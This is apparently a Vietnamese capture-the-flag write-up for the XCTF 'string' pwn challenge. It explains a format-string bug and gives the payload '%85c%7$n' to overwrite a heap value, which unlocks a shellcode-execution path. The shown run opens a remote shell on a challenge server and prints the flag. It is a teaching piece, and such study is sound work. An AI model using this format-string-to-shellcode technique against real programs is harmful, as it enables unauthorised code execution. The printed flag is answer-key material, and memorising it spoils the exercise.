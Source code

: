 # XCTF - PWN Exercise - string

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/9_string λ checksec string 
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/9_string/string'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Vì code bài này khá dài nên mình sẽ không để toàn bộ code decompiler ở đây mà sẽ đi vào từng functions và phân tích chức năng và liên hệ giữa các functions qua trình dịch ngược IDA64 từ đó đưa ra khai thác. Bắt đầu từ hàm `main`.

```c
#include<stdio.h>

...

__int64 __fastcall main(int a1, char **a2, char **a3)
{
  _DWORD *v4; // [rsp+18h] [rbp-78h]

  setbuf(stdout, 0LL);
  alarm(0x3Cu);
  sub_400996(60LL);

  v4 = malloc(8uLL);
  *v4 = 68;
  v4[1] = 85;

  puts("we are wizard, we will give you hand, you can not defeat dragon by yourself ...");
  puts("we will tell you two secret ...");
  printf("secret[0] is %x\n", v4);
  printf("secret[1] is %x\n", v4 + 1);
  puts("do not tell anyone ");

  sub_400D72(v4);
  
  puts("The End.....Really?");
  return 0LL;
}
```

Chúng ta quan tâm tới con trỏ v4 được cấp phát động, `v4 = 68` và `v4[1] = 85` và tương ứng với `secret[0]` và `secret[1]` được in ra là địa chỉ của `v4` và `v4[0]`. Tiếp theo là hàm `sub_400D72` với đối số là v4.

```c
#include<stdio.h>
...
unsigned __int64 __fastcall sub_400D72(__int64 a1)
{
  char s[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("What should your character's name be:");
  _isoc99_scanf("%s", s);
  
  if ( strlen(s) <= 0xC )
  {
    puts("Creating a new player.");
    sub_400A7D();
    sub_400BB9();
    sub_400CA6(a1);
  }
  else
  {
    puts("Hei! What's up!");
  }
  return __readfsqword(0x28u) ^ v3;
}
...
```

Nhập `s` có độ dài nhỏ hơn 0xC, sau đó ta lần lượt phân tích ba hàm.

```c
#include<stdio.h>
...
unsigned __int64 sub_400A7D()
{
  char s1[8]; // [rsp+0h] [rbp-10h] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts(" This is a famous but quite unusual inn. The air is fresh and the");
  puts("marble-tiled ground is clean. Few rowdy guests can be seen, and the");
  puts("furniture looks undamaged by brawls, which are very common in other pubs");
  puts("all around the world. The decoration looks extremely valuable and would fit");
  puts("into a palace, but in this city it's quite ordinary. In the middle of the");
  puts("room are velvet covered chairs and benches, which surround large oaken");
  puts("tables. A large sign is fixed to the northern wall behind a wooden bar. In");
  puts("one corner you notice a fireplace.");
  puts("There are two obvious exits: east, up.");
  puts("But strange thing is ,no one there.");
  puts("So, where you will go?east or up?:");
  while ( 1 )
  {
    _isoc99_scanf("%s", s1);
    if ( !strcmp(s1, "east") || !strcmp(s1, "east") )
      break;
    puts("hei! I'm secious!");
    puts("So, where you will go?:");
  }
  if ( strcmp(s1, "east") )
  {
    if ( !strcmp(s1, "up") )
      sub_4009DD();
    puts("YOU KNOW WHAT YOU DO?");
    exit(0);
  }
  return __readfsqword(0x28u) ^ v2;
}
...
```

Hàm thứ nhất `sub_400A7D`, chỉ cần nhập `east` để đi tiếp đến các hàm sau.

```c
#include<stdio.h>
...
unsigned __int64 sub_400BB9()
{
  int v1; // [rsp+4h] [rbp-7Ch] BYREF
  __int64 v2; // [rsp+8h] [rbp-78h] BYREF
  char format[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v4; // [rsp+78h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  v2 = 0LL;
  puts("You travel a short distance east.That's odd, anyone disappear suddenly");
  puts(", what happend?! You just travel , and find another hole");
  puts("You recall, a big black hole will suckk you into it! Know what should you do?");
  puts("go into there(1), or leave(0)?:");
  _isoc99_scanf("%d", &v1);
  if ( v1 == 1 )
  {
    puts("A voice heard in your mind");
    puts("'Give me an address'");
    _isoc99_scanf("%ld", &v2);          
// nhap 1 dia chi tai v2 o day, sau do thay doi gia tri dc luu tru trg dia chi nay thong qua lo hong chuoi dinh dang
    puts("And, you wish is:");
    _isoc99_scanf("%s", format);
    puts("Your wish is");
    printf(format);
    puts("I hear it, I hear it....");
  }
  return __readfsqword(0x28u) ^ v4;
}
...
```

Hàm thứ hai `sub_400BB9`, sau khi nhập `1` là giá trị của `v1` ta thấy `printf(&format, & format)` => chúng ta có thể sử dụng lỗ hổng của chuỗi định dạng. Chúng ta có thể nhập một địa chỉ tại `v2` ở trên, và sau đó thay đổi giá trị được lưu trữ trong địa chỉ này thông qua lỗ hổng chuỗi định dạng.

```c
#include<stdio.h>
...
unsigned __int64 __fastcall sub_400CA6(_DWORD *a1)
{
  void *v1; // rsi
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Ahu!!!!!!!!!!!!!!!!A Dragon has appeared!!");
  puts("Dragon say: HaHa! you were supposed to have a normal");
  puts("RPG game, but I have changed it! you have no weapon and ");
  puts("skill! you could not defeat me !");
  puts("That's sound terrible! you meet final boss!but you level is ONE!");
  if ( *a1 == a1[1] )
  {
    puts("Wizard: I will help you! USE YOU SPELL");
    v1 = mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
    read(0, v1, 0x100uLL);
    ((void (__fastcall *)(_QWORD))v1)(0LL);
  }
  return __readfsqword(0x28u) ^ v3;
}
...
```

Hàm thứ ba `sub_400CA6(a1)`, đối số `a1` chính là con trỏ kiểu int `v4` ở hàm main, là địa chỉ nơi lưu trữ giá trị 65. Đọc nội dung trong hàm if cụ thể là chương trình sẽ đọc 1 chuỗi bằng con trỏ `v1` sau đó sẽ trỏ tới vị trí bắt đầu của chuỗi đó => có thể sử dụng shellcode tại `v1` này. 

Vấn đề là để thực thi nội dung trong if ta cần `*a1 == a1[1]` hay chính là `v4[0] = v4[1]`. Ta thấy hàm thứ hai `sub_400BB9` có lỗi `format-string`, từ đó có thể dùng lỗi fmt để làm v4[0] và v4[1] bằng nhau. 

Bây giờ những việc cần làm.
    +) Tìm xem biến `v2` của hàm `Hàm thứ hai sub_400BB9` là parameter thứ mấy.
    +) Sử dụng lỗi `Format string` của biến `format` để ghi đè giá trị v4[0] và v4[1] bằng nhau.
    +) Gửi shellcode x86_64 nữa là có thể lấy được flag. (shellcode execve(/bin/sh, 0, 0) x86_64 có rất nhiều trên mạng).
    
```
A voice heard in your mind
'Give me an address'
128
And, you wish is:
AAAAAAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
Your wish is
AAAAAAAA-0x7fba55b82723-(nil)-0x7fba55aa3077-0xd-(nil)-0x100603018-0x80-0x4141414141414141-0x252d70252d70252d-0x2d70252d70252d70I hear it, I hear it....
Ahu!!!!!!!!!!!!!!!!A Dragon has appeared!!
```

0x80 = 128, v2 nằm ở parameter thứ 7 trên stack. Bây giờ khi nhập v2 ta sẽ nhập địa chỉ được in ra ở secret[0] - địa chỉ của v4[0], sau đó nhập chuỗi `format` là `%85c%7$n` với 85 là giá trị của `v4[1]`.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/9_string λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 60918: Done
31858704
[*] Switching to interactive mode

$ ls
bin
dev
flag
lib
lib32
lib64
string
$ cat flag
cyberpeace{18a12ffd12d25b6047764f255f5fd3a1}
$  
```
